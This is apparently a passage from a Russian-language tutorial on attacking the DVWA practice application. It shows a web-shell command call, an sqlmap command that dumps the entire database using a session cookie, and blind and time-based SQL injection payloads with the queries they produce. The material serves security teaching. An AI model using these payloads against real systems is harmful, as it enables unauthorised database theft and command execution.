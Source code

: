 ```
http://host/path/to/file/cmd.php?cmd=uname%20-a
```
![](https://user-images.githubusercontent.com/58670841/178011202-9b521ee3-cffe-489a-81b9-546323d9b992.png)

## Атака автоматизированными инструментами

Команда для запуска sqlmap:
```bash
sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low" --proxy http://192.168.50.2:8080 --dump-all
```
Результат:

![](https://user-images.githubusercontent.com/58670841/178011203-a9cee84c-7f56-4edc-9aef-38db47a22ffc.png)

# Blind SQL-инъекция

### Пример вредоносного кода
```
http://site/?param=1' and ascii(substr(database(),1,1))>99#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' and ascii(substr(database(),1,1))>99#'
```
![Пример](https://images-ext-2.discordapp.net/external/zDNOsE6BsiNmqGv4gV2XBvA34f_edv1xS8ufkK4vIw0/https/user-images.githubusercontent.com/79576423/178008923-835e7641-21f9-4904-8189-a03ee6ed6784.png)

*Источник: [DVWA](https://github.com/digininja/DVWA)*

### Пример поиска обнаружения Blind SQL-инъекции

Если веб-приложение уязвимо для SQL-инъекции, то оно, вероятно , ничего не вернет.Чтобы убедиться, необходимо ввести запрос , который вернет ‘true’:
```
http://site/?param=1' OR 1=1#
```
```
SELECT title,description,body FROM items WHERE PARAM='1' OR 1=1#'
```
![Пример](https://images-ext-2.discordapp.net/external/j4ObMAuDX0KZko_DOIifGQprIXVtxs5Gxj28flSynfY/https/user-images.githubusercontent.com/79576423/178008929-3f4150d5-aeb3-4b09-91ca-6e0de68b9746.png)

*Источник: [DVWA](https://github.com/digininja/DVWA)*

### Пример Time-based Blind SQL-инъекции

Этот тип слепой SQL-инъекции основан на том, что база данных приостанавливается на определенное время, а затем возвращает результаты, указывающие на успешное выполнение SQL-запроса.
```
1' AND sleep(7)#
```
![Пример](https://images-ext-2.discordapp.net/external/L5ZQA1M0Zt7sqHlAihdPNBA1_U3xDmuVRMnqNgVMMjE/https/user-images.githubusercontent.com/79576423/178008925-f4c9b5b9-d79b-40ac-bf0b-bc090d559aac.png)
